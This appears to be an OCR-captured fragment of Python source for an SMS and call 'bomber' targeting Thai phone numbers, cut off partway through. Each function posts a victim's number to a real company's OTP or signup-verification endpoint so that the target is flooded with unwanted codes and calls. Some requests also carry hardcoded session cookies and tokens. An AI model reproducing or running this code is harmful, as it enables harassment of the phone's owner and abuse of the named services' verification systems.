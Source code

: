

def call1(phone):

    post("https://www.theconcert.com/rest/request-otp",json={"mobile":phone,"country_code":"TH","lang":"th","channel":"call","digit":4},headers={"user-agent": "Mozilla/5.0 (Linux; Android 5.1.1; A37f) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/95.0.4638.74 Mobile Safari/537.36","cookie": "_gcl_au=1.1.708266966.1646798262;_fbp=fb.1.1646798263293.934490162;_gid=GA1.2.1869205174.1646798265;__gads=ID=3a9d3224d965d1d5-2263d5e0ead000a6:T=1646798265:RT=1646798265:S=ALNI_MZ7vpsoTaLNez288scAjLhIUalI6Q;_ga=GA1.2.2049889473.1646798264;_gat_UA-133219660-2=1;_ga_N9T2LF0PJ1=GS1.1.1646798262.1.1.1646799146.0;adonis-session=a5833f7b41f8bc112c05ff7f5fe3ed6fONCSG8%2Fd2it020fnejGzFhf%2BeWRoJrkYZwCGrBn6Ig5KK0uAhDeYZZgjdJeWrEkd2QqanFeA2r8s%2FXf7hI1zCehOFlqYcV7r4s4UQ7DuFMpu4ZJ45hicb4xRhrJpyHUA;XSRF-TOKEN=aacd25f1463569455d654804f2189bc77TyRxsqGOH%2FFozctmiwq6uL6Y4hAbExYamuaEw%2FJqE%2FrWzfaNdyMEtwfkls7v8UUNZ%2BFWMqd9pYvjGolK9iwiJm5NW34rWtFYoNC83P0DdQpoiYfm%2FKWn1DuSBbrsEkV"})

#https://swagger.io/specification/



def cang01(phone):

    post("https://partner-api.grab.com/grabid/v1/oauth2/otp", headers={"User-Agent": useragent}, json={"client_id":"4ddf78ade8324462988fec5bfc5874c2","transaction_ctx":"null","country_code":"TH","method":"SMS","num_digits":"6","scope":"openid profile.read foodweb.order foodweb.rewards foodweb.get_enterprise_profile","phone_number": f"66{phone[1:]}"})

    

def cang02(phone):

    post(f"http://m.vcanbuy.com/gateway/msg/send_regist_sms_captcha?mobile=66-0{phone}")

    

def cang03(phone):

    post("https://nocnoc.com/authentication-service/user/OTP?b-uid=1.0.661", headers={"User-Agent": useragent}, json={"lang":"th","userType":"BUYER","locale":"th","orgIdfier":"scg","phone": f"+66{phone[1:]}","type":"signup","otpTemplate":"buyer_signup_otp_message","userParams":{"buyerName": "dec"}})

   

def cang1(phone):

    post("https://cognito-idp.ap-southeast-1.amazonaws.com/",headers={"cache-control": "max-age=0","user-agent": "Mozilla/5.0 (Linux; Android 10; Redmi 8A) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/94.0.4606.85 Mobile Safari/537.36","content-type": "application/x-amz-json-1.1","x-amz-target": "AWSCognitoIdentityProviderService.ResendConfirmationCode","x-amz-user-agent": "aws-amplify/0.1.x js","referer": "https://www.bugaboo.tv/members/resetpass/phone"},json={"ClientId":"6g47av6ddfcvi06v4l186c16d6","Username":f"+66{phone[1:]}"})

   

def cang2(phone):

    post("https://www.carsome.co.th/website/login/sendSMS",json={"username":phone,"optType":0})

    

def cang3(phone):

    post("https://the1web-api.the1.co.th/api/t1p/regis/requestOTP",json={

  "on": {
